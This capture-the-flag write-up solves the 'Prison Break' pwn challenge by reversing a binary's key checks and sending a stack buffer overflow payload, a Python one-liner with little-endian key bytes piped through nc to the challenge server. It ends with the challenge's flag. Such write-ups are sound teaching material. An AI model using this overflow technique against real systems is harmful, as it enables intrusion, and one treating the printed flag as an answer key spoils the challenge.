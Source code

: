 # Prison Break



````
[Noiche] : J'ai été envoyé au goulag l'année dernière à cause de mes challenges de PWN... Venez m'aider à sortir d'ici et je vous récompenserai :p

Accès au challenge : nc ctf.midnightflag.fr 9021

Format : MCTF{}

Auteur : Noiche
````

Files :

[Prison_Break](files/prison_break)

The file given is non executable and is just given to reverse the code of the server. We cannot get the flag only by reversing the file.

Here is what we get by connecting to the server using nc:

![prison_server](images/prison_server.png)

After writing anything, we get this message:

```
Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x0 - 0x0 - 0x0 - 0x0 - 0x0 ]
```

Well, we will surely need to change this value in order to free Noiche. First we try a basic buffer overflow by flooding the input with A:

```sh
python -c "print 'A' * 1000" | nc ctf.midnightflag.fr 9021

...

Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 ]
```

We can control the key! ...but we don't know what key do we need.

Let's take a quick look at the executable. We open it in [Cutter](https://cutter.re/), and we can directly see a function named `vuln`.

![prison_functions](images/prison_functions.png)

The function is pretty simple, we can see some parts that stand out.

The function set 6 memory spaces to 0, we can ignore `var_ch`:

![prison_memory_set](images/prison_memory_set.png)

It's seems that those are the memory spaces we overflowed before. All space are 4 bytes long and are next to each other.

There is a scanf and some comparisons just after:

![prison_cmp](images/prison_cmp.png)

The different parts of the key are being checked here. We can reproduce the key by using the parameters in each cmp: `0x800`, `0xfffffe49`, `0xb3350000`, `0x0` and `0x1000`.

We will fill the input with 'A' until we reach the start of the key and then write the actual key.   
Since the stack is little endian, we will need to reverse each byte in every part of the key in the final payload (e.g. `0xfffffe49` will become `0x49feffff`).

The payload can be done using Python:
```sh
python -c "print 'A' * number_to_overflow + '\x00\x10\x00\x00' + '\x00\x00\x00\x00' + '\x00\x00\x35\xb3' + '\x49\xfe\xff\xff' + '\x00\x08\x00\x00'" | nc ctf.midnightflag.fr 9021
```

By guessing, we find that we need to write 256 bytes to reach the key in memory.   
We can then replace `number_to_overflow` in our script by 256 and send it once again:

![prison_free](images/prison_free.png)

Here is the flag!

Flag: `MCTF{___1m_fr33_!_1_c4n_m4k3_m0r3_ch4ll5_n0w_!!!___}`

Author: Ooggle
